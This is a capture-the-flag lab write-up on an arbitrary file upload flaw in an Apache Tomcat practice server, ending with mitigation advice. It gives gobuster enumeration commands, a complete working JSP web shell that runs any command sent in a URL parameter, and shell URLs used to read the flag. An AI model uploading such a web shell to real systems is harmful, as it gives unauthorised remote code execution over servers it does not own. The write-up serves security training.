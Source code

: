 # Arbitrary File Upload - GetBackShell Lab

## Overview

**Arbitrary File Upload** is a critical vulnerability that arises when a web application fails to properly validate uploaded files. This allows an attacker to upload malicious files (such as web shells), potentially resulting in **Remote Code Execution (RCE)**, data compromise, or full system takeover.

This lab demonstrates how improper validation in a file upload feature can be exploited to gain unauthorized access to the server.

---

## Objectives

- Discover and analyze the file upload functionality.
- Identify accepted file types and upload behavior.
- Craft and upload a malicious JSP web shell.
- Achieve RCE and retrieve the flag from the server.

---

## Lab Details

- **Lab:** [GetBackShell](https://defhawk.com/battleground/practice-lab/all-categories/web/getbackshell)
- **Target URL:** `http://ai.ctf.defhawk.com:8080/`
- **Stack:** Apache Tomcat 9.0.106 (Java-based)

![Landing Screenshot](Screenshot%20From%202025-07-13%2003-12-15.png)

---

## 1. Reconnaissance

Since the server uses **Apache Tomcat**, it likely accepts **JSP (Java Server Pages)** files.

Start by performing directory brute-force scanning using `gobuster`:

```bash
gobuster dir -u http://ai.ctf.defhawk.com:8080 -w /usr/share/dirb/wordlists/common.txt
```

![Gobuster Initial](Screenshot%20From%202025-07-13%2013-41-26.png)

- Found endpoint: `/app`

Exploring `http://ai.ctf.defhawk.com:8080/app` didn't reveal much, so we enumerate further:

```bash
gobuster dir -u http://ai.ctf.defhawk.com:8080/app -w /usr/share/dirb/wordlists/common.txt
```

![Gobuster App](Screenshot%20From%202025-07-13%2013-48-52.png)

- Discovered: `/app/images`, `/app/uploads`
- Still no visible upload functionality.

### Upload Endpoint Found

After further fuzzing, located the endpoint:

```
/app/upload.jsp
```

![Upload JSP](Screenshot%20From%202025-07-13%2013-56-47.png)

---

## 2. Exploitation

The upload form presents three file input parameters.

Test by uploading a simple JSP-based web shell like:

```jsp
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
        Process p = Runtime.getRuntime().exec(cmd);
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        int c;
        while ((c = in.read()) != -1) {
            out.print((char)c);
        }
        in.close();
    }
%>
```

Upload the file. The server does not restrict file type or validate content:

![Upload Success](Screenshot%20From%202025-07-13%2014-03-31.png)

Access the shell through:

```
http://ai.ctf.defhawk.com:8080/app/uploads/shell.jsp?cmd=pwd
```

![Shell pwd](Screenshot%20From%202025-07-13%2014-06-30.png)

You now have remote code execution on the server.

---

## 3. Capture the Flag

Run commands via the web shell to navigate and read the flag:

### List directory contents:

```
http://ai.ctf.defhawk.com:8080/app/uploads/shell.jsp?cmd=ls
```

![List](Screenshot%20From%202025-07-13%2014-13-07.png)

### Read the flag:

```
http://ai.ctf.defhawk.com:8080/app/uploads/shell.jsp?cmd=cat flag.txt
```

![Flag](Screenshot%20From%202025-07-13%2014-14-06.png)

Flag retrieved successfully.

---

## Mitigation Strategies

To prevent arbitrary file upload vulnerabilities:

- Whitelist allowed file extensions.
- Validate MIME types and file signatures (magic bytes).
- Rename files server-side using random UUIDs.
- Store uploaded files outside the web root if not meant for execution.
- Disable script execution in upload directories.
- Implement size and content filters.

---

## Summary

This lab showcased a classic Arbitrary File Upload vulnerability on an Apache Tomcat server. Through directory fuzzing and a JSP web shell upload, we gained remote code execution and retrieved the flag.

Always validate, sanitize, and control file upload mechanisms to secure your web application.
